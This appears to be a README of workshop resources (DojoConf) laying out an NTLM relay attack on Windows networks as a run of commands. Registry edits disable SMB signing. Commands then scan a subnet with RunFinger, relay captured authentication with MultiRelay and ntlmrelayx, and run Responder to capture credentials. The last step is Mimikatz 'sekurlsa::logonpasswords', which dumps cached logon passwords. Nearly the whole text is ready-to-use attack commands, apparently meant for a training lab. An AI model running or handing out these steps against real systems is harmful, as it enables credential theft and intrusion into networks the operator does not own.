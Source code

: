# DojoConf-Recursos

Shared Folder
```
\\ScanFolder\c$
```

Disable SMB Signing
```
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanWorkStation\Parameters" /v "RequireSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanWorkStation\Parameters" /v "EnableSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters" /v "RequireSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters" /v "EnableSecuritySignature" /t REG_DWORD /d 0 /f
```


Comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "MultiRelay.py" -print
find /usr/share/responder/ -name "ntlmrelayx.py" -print
```

1. Identify network systems that do not require SMB message validation to detect machine with SMB signing:disabled.
```
python RunFinger.py -i 192.168.0.0/24
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt
 ```   
 ```
 python MultiRelay.py -t 192.168.0.4 -u ALL -d
 ntlmrelayx.py -tf targets.txt --smb2support
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
responder -I eth0 -rv
responder -I eth0 -rdw
```
5. Wait for creds
6. Invoke standard Mimikatz
```
mimi sekurlsa::logonpasswords
```



